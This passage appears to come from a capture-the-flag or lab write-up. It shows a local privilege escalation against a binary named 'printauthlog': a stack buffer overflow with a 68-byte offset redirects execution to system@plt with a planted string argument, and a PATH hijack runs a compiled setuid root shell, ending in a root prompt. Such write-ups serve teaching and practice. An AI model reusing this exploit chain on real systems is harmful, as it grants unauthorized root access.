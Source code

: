 because we have an read-write access to this dir, i can assure that priviledge escalation<br>
with modify `PATH` environment<br>
```c
offset at 68
system@plt at 0x08049060
global string "Wrong password" at 0x804b008

payloads :
padding + system + junk + str_wrong
```

Finger Cross ...
```bash
$ echo 'int main(){setuid(0);setgid(0);system("/bin/sh");}' > Wrong.c;gcc Wrong.c -o Wrong &>/dev/null
$ PATH=.:$PATH ./printauthlog  `perl -e 'print("A" x 68 . "\x60\x90\x04\x08" . "BBBB" . "\x08\xb0\x04\x08")'`
# whoami
root
```